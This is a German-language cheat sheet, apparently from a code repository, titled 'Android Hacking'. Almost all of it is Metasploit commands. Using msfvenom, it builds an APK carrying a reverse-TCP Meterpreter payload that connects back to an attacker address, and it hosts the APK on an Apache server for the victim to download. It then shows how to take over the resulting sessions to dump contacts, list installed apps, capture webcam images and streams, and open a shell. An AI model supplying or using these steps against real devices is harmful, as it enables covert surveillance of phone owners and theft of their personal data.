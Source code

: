 
## Android Hacking

### Commands und Beschreibung
---
```msvenom -- help```
_liefert alle Parameter, die uns helfen können_

```msvenom -p android/meterpreter/reverse_tcp LHOST=<Attacker-IP> LPORT=444 R > /var/www/html/androidApp.apk```
_Dieser Command erstellt eine Android App und änderrt diese so, dass die IP und der Port auf den Attacker umgelenkt werden._
__Reverse Shell auf Android Phone__


```service apache2 status```
_Falls nicht gestartet_ ```service apache2 start```
_Endgerät kann danach über die IP-Adresse auf den Webserver zugreifen._
_index.html im Ordner /var/www/html wird so angepasst, dass die APK der erstellten App heruntergeladen werden kann_

```msfconsole```


```use exploit/multi/handler```
``set payload android/meterpreter/reverse_tcp``


``show options``
_Listet alle verfügbaren Options_

``set LHOST <Attacker-IP>``
_LHOST muss gesetzt werden, damit der exploit ausgeführt werden kann._

``exploit``
	_Der Exploit kann dann ausgeführt werden._

``help``
_Listet alle Befehle auf_
``webcam_stream -h``
_Listet alle Options für den webcam_stream Command._

``background (optional)``
``sessions``

``sessions -i 1``
_Geschafft! Jetzt kann man mit dem Android Phone interargieren_

``app_list``

``dump_contacts``
_Printet alle Kontakte von dem Android-Gerät_

``webcam_list``
_Listet alle Webcams_
_Die Files werden in das Root Verzeichnis verschoben_
_Die Files können nun in den var/www/ Ordner kopiert werden, sodass man über den Webserver daraufzugreifen kann._


``webcam_snap``
	_Wenn mit der richtigen Session interagiert wird (physikalische Session vom android Gerät) wird der Stream einer Webcam übertragen_

``background``

``exploit``
_Alle User-Interaktionen werden auf die Kali Maschine gesendet_
_Der Exploit wird auf der Defender-Machine ausgeführt._

``sessions -i 8``
_Nun kann mit der Session interagiert werden._

``shell``
_Eine Linux Shell kann jetzt in der session ausgeführt werden_
